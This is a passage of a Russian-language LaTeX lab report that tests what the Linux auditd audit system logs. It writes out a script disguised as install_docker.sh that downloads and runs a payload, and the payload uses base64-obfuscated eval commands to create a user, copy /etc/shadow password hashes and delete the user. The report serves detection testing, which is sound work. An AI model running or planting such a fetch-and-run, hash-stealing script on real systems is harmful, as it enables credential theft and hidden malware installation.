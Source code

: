 \section{Цель работы}
Целью работы является изучение работы системы аудита.

\section{Ход работы}
\subsection{Рекомендуемые правила}

В системе по-прежнему применены рекомендованные правила auditd (\url{https://github.com/Neo23x0/auditd/blob/master/audit.rules}).

Подготовим вредоносный скрипт, который скачивает payload и выполняет его от имени администратора (практика запуска скриптов из интернета встречается, например, в инструкции по установке Docker). Payload копирует хэши паролей из файла /etc/shadow в файл.

\begin{lstlisting}[language=bash, numbers=none, caption={Локальный скрипт}]
wget https://raw.githubusercontent.com/shadrunov/
    year-4-os/main/lab/3_auditd_exploit/exploit.sh -O install_docker.sh
bash ./install_docker.sh
\end{lstlisting}

\begin{lstlisting}[language=bash, numbers=none, caption={Payload}]
#!/bin/bash

# useradd -m virus
eval "$(echo 'dXNlcmFkZCAtbSB2aXJ1cw==' | base64 --decode)"

# cat /etc/shadow > /home/virus/passwords
eval "$(echo 'Y2F0IC9ldGMvc2hhZG93ID4gL2hvbWUvdmlydXMvcGFzc3dvcmRz' | base64 --decode)"

# userdel virus
eval "$(echo 'dXNlcmRlbCB2aXJ1cw==' | base64 --decode)"
\end{lstlisting}

\FloatBarrier

Запустим скрипт и проверим, какие правила сработают при его выполнении.

\subsection{Сработавшие правила}
Для отображения всех логов, связанных с запуском скрипта, укажем фильтр по времени (\texttt{ausearch --start '01:47:06' --end '01:47:06'}). Всего auditd записал 149 событий, из них 74 связаны с добавлением пользователя и 52 с удалением (рисунок 2).

